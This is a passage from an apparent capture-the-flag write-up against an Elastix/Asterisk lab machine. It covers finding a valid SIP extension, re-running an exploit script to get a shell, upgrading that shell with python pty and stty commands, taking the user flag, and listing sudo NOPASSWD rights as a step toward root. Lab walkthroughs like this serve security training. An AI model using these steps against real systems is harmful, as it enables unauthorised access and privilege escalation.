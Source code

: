 ```text
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
| Extension | Authentication |
------------------------------
| 233       | reqauth        |
```

233 is a valid extension number. Change the extension in the script and run it again.

![](../images/max/642/1*lA5njfKGfSQF7JHh1vlpIA.png)

We have a shell! Let’s first upgrade the shell to a partially interactive bash shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

‌To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Now that we have a fully interactive shell, let’s grab the user.txt flag.

![](../images/max/520/1*7VIfyBV6EjSFA-_ULdGvvw.png)

Next, we need to escalate our privileges to root. Run the following command to view the list of allowed sudo commands the user can run.

```text
sudo -l
```

We get back the following result.

```text
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```
